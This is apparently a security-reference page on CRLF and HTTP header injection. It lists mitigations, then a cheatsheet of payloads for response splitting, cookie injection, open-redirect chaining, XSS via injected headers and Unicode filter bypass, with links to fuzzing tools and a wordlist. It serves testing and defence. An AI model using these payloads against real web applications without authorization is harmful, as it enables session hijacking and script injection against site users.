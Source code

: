 ### How to Prevent CRLF / HTTP Header Injections in Web Applications

To mitigate the risks of CRLF (Carriage Return and Line Feed) or HTTP Header Injections in web applications, the following strategies are recommended:

1. **Avoid Direct User Input in Response Headers:** The safest approach is to refrain from incorporating user-supplied input directly into response headers.
2. **Encode Special Characters:** If avoiding direct user input is not feasible, ensure to employ a function dedicated to encoding special characters like CR (Carriage Return) and LF (Line Feed). This practice prevents the possibility of CRLF injection.
3. **Update Programming Language:** Regularly update the programming language used in your web applications to the latest version. Opt for a version that inherently disallows the injection of CR and LF characters within functions tasked with setting HTTP headers.

### CHEATSHEET

[Cheatsheet from here](https://twitter.com/NinadMishra5/status/1650080604174667777)

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2 
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

## Automatic Tools

* [https://github.com/Raghavd3v/CRLFsuite](https://github.com/Raghavd3v/CRLFsuite)
* [https://github.com/dwisiswant0/crlfuzz](https://github.com/dwisiswant0/crlfuzz)

## Brute-Force Detection List

* [https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/crlf.txt](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/crlf.txt)
